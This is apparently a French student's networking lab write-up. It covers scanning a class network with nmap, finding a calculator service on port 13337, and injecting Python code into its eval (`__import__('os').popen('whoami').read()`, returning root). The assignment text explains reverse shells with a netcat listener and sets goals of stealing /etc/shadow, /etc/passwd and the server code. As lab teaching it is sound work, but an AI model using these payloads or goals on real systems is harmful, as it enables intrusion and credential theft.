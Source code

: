 . Reconnaissance

🌞 Déterminer

à quelle IP ce client essaie de se co quand on le lance

```
10.1.1.2
```

à quel port il essaie de se co sur cette IP

```
13337
```
vous DEVEZ trouver une autre méthode que la lecture du code pour obtenir ces infos

```
Lecture wireshark : voir "determiner.pcapng"
```


🌞 Scanner le réseau

```
PS C:\Users\vince> nmap -p 13337 10.33.64.0/20 --min-parallelism 10 -oN nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-24 10:28 Paris, Madrid (heure dÆÚtÚ)
Stats: 0:00:03 elapsed; 0 hosts completed (0 up), 4095 undergoing ARP Ping Scan
ARP Ping Scan Timing: About 3.38% done; ETC: 10:29 (0:01:26 remaining)
Stats: 0:02:23 elapsed; 0 hosts completed (0 up), 4095 undergoing ARP Ping Scan
ARP Ping Scan Timing: About 80.32% done; ETC: 10:31 (0:00:35 remaining)
Stats: 0:02:26 elapsed; 0 hosts completed (0 up), 4095 undergoing ARP Ping Scan
ARP Ping Scan Timing: About 81.07% done; ETC: 10:31 (0:00:34 remaining)
Stats: 0:02:51 elapsed; 0 hosts completed (0 up), 4095 undergoing ARP Ping Scan
ARP Ping Scan Timing: About 96.92% done; ETC: 10:31 (0:00:05 remaining)
Stats: 0:03:03 elapsed; 3207 hosts completed (888 up), 888 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 27.31% done; ETC: 10:31 (0:00:16 remaining)
Stats: 0:03:27 elapsed; 3207 hosts completed (888 up), 888 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 52.31% done; ETC: 10:32 (0:00:26 remaining)
Stats: 0:04:02 elapsed; 3207 hosts completed (888 up), 888 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 81.93% done; ETC: 10:32 (0:00:14 remaining)
Stats: 0:04:32 elapsed; 3207 hosts completed (888 up), 888 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 100.00% done; ETC: 10:33 (0:00:00 remaining)
Nmap scan report for 10.33.64.9
Host is up (0.0050s latency).
```

```
voir : tp5_nmap.pcapng et tp5_nmap.txt
```

🌞 Connectez-vous au serveur

```
Nmap scan report for 🌞10.33.66.78🌞
Host is up (0.045s latency).

PORT      STATE SERVICE
13337/tcp 🌞open🌞  unknown
MAC Address: E4:B3:18:48:36:68 (Intel Corporate)
```

```
PS D:\Reseau-Linux\R-seau_B2\TP5> python .\client.py
Veuillez saisir une opération arithmétique : 4+4
'8'
PS D:\Reseau-Linux\R-seau_B2\TP5>
```

```
L'application sert à faire des opérations
```

🌞 Injecter du code serveur

Elements modifiés
```
import os
userMessage = "__import__('os').popen('whoami').read()"
```

```
PS D:\Reseau-Linux\R-seau_B2\TP5> python .\client.py
'root\n'
PS D:\Reseau-Linux\R-seau_B2\TP5>
```

3. Reverse shell
➜ Injecter du code c'est bien mais...

souvent c'est chiant si on veut vraiment prendre le contrôle du serveur
genre ici, à chaque commande, faut lancer une connexion au serveur étou, relou
on pourrait lancer un serveur à nous sur la machine, et s'y connecter, mais s'il y a un firewall, c'est niquéd

reverse shell à la rescousse : l'idée c'est de lancer un shell sur le serveur victime


C'est comme une session SSH, mais c'est à la main, et c'est le serveur qui se connecte à toi pour que toi tu aies le shell. Genre c'est l'inverse de d'habitude. D'où le nom : reverse shell.

➜ Pour pop un reverse shell


en premier

sur une machine que tu contrôles
tu lances un programme en écoute sur un port donné
un ptit nc -lvp 9999 par exemple



en deuxième

sur la machine où tu veux un shell, là où t'as de l'injection de code
tu demandes à l'OS d'ouvrir un port, et de se connecter à ton port ouvert sur la machine que tu contrôles
tu lances un shell (bash par exemple)
ce bash va "s'accrocher" à la session TCP



enfin

tu retournes sur la machine que tu contrôles
et normalement, dans ta session nc -lvp 9999, t'as un shell qui a pop



➜ Long story short

une commande sur une machine que tu contrôles
une commande injectée sur le serveur victime
t'as un shell sur le serveur victime depuis la machine que tu contrôles


Quand tu commences à être bon en bash/réseau étou tu peux pondre ça tout seul. Mais sinon, on se contente de copier des commandes trouvées sur internet c'est très bien.

🌞 Obtenez un reverse shell sur le serveur

si t'as injection de code, t'as sûrement possibilité de pop un reverse shell
y'a plein d'exemple sur le très bon hacktricks


🌞 Pwn

voler les fichiers /etc/shadow et /etc/passwd

voler le code serveur de l'application
déterminer si d'autres services sont disponibles sur la machine


4. Bonus : DOS
Le DOS dans l'esprit, souvent c'est :

d'abord t'es un moldu et tu trouves ça incroyable
tu deviens un tech, tu te rends compte que c'est pas forcément si compliqué, ptet tu essaies
tu deviens meilleur et tu te dis que c'est super lame, c'est nul techniquement, ça mène à rien, exploit c'est mieux
tu deviens conscient, et ptet que parfois, des situations t'amèneront à trouver finalement le principe pas si inutile (politique ? militantisme ?)
